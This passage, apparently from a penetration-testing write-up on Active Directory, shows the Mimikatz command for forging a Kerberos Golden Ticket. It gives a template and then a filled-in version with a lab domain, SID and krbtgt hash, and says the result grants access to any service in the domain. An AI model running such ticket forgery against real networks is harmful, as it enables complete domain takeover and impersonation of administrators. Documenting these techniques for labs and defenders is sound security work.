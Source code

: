 ![](/assets/images/active-directory/golden_impacket.png)

### Mimikatz

With mimikatz we run the command: `kerberos::golden /user:administrator /domain:<domain name> /sid:<domain SID> /krbtgt:<krbtgt rc4 hash> /id:500 /startoffset:0 /endin:600 /renewmax:10080 /ptt`, not all parameters are mandatory, but I like to run it like that, so on this case I run: `kerberos::golden /user:administrator /domain:KAIBA-CORP.local /sid:S-1-5-21-4100948528-2762735150-1331983247 /krbtgt:d6fcce69ae31172e9b8bd49d887d92ab /id:500 /startoffset:0 /endin:600 /renexmax:10080 /ptt`, now we can access to any service inside the domain from this computer.

![](/assets/images/active-directory/golden_mimi.png)
